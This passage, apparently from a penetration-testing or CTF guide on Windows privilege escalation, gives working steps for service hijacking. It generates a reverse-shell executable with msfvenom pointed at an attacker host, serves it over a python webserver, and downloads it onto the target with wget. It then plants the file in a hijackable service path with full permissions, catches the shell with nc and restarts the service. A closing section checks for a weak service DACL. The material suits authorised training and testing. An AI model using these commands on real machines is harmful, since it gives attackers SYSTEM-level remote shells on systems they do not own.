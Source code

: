 2. Generate an exe-service payload using msfvenom and serve it through a python webserver:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4446 -f exe-service -o rev-svc2.exe

# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

3. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc2.exe -O rev-svc2.exe
```

4. Move it to any of the locations where hijacking might occur. For example, move it to `C:\MyPrograms\Disk.exe`, and grant `Everyone` full permissions on the file to make sure it can be executed by the service:

```text
C:\> move C:\Users\unprivilegedusername\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Start listener on attack machine:

```text
# nc -lvp 4446
```

Start the "updated" service:

```text
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

### Misconfigured Service DACL

1. Download [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to `C:\\tools`.
2. Check a namedservice DACL:

```text
C:\tools\AccessChk> accesschk64.exe -qlc namedservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

